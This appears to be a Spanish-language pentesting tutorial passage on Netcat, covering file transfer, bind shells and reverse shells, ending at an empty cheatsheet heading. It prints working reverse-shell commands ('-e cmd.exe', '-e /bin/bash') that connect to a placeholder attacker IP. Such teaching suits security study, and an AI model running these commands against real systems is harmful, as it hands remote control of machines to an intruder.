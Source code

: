 Netcat, por defecto se conectará al listener vía TCP, si el listener especifica la opción -u (UDP), el cliente que se conecta también debe especificar -u.

Ahora vamos a transferir archivos con Netcat. Tenemos que ponernos en listener desde el cliente (el que recibirá el fichero), con el siguiente comando:

```bash
nc -lvnp <port> > <file_name>
```

Queda en escucha. Ahora enviamos el fichero con la otra máquina:

```bash
nc -nv <IP_listener> <port> < <file_name>
```

## Bind Shells

Se trata de un tipo de shell remota, donde el atacante se conecta directamente al sistema objetivo, lo que permite la ejecución de comandos. Netcat se puede configurar para ejecutar un programa específico (opción -e) cuando los clientes se conectan al listener (servidor), como cmd.exe para Windows o /bin/bash en una máquina Linux.

Las Reverse Shell son mucho mejores que las Bind Shell, principalmente, porque para obtener una Bind Shell, tenemos que configurar un listener en la máquina objetivo, y para esto, necesitamos acceso a dicha máquina, otro problema, es que, si la máquina objetivo tiene un firewall, filtrará directamente nuestro tráfico, o la conexión fallará si actuamos a través de un puerto bloqueado.

## Reverse Shells

El atacante se conecta directamente a la shell del sistema objetivo. La conexión se puede realizar aunque el sistema de destino no tenga netcat. En este caso, no tenemos problema con el trafico, porque, normalmente, el trafico saliente no está controlado por el firewall u otros sistemas de seguridad. Un problema es que el exploit debe contener la IP del atacante, y un analista de seguridad podría encontrarla.

Vamos con el ejemplo. Nos ponemos en listener desde la máquina atacante:

```bash
nc -lvnp 1234
```

Queda en escucha. Ahora, desde la máquina objetivo (Windows), lanzamos es siguiente comando:

```bash
nc.exe -nv <IP_atacante> <puerto_atacante> -e cmd.exe
```

Ya tenemos una reverse shell en el atacante.

Si la máquina objetivo es Linux:

```bash
nc -nv <IP_atacante> <puerto_atacante> -e /bin/bash
```

### Reverse Shell Cheatsheet
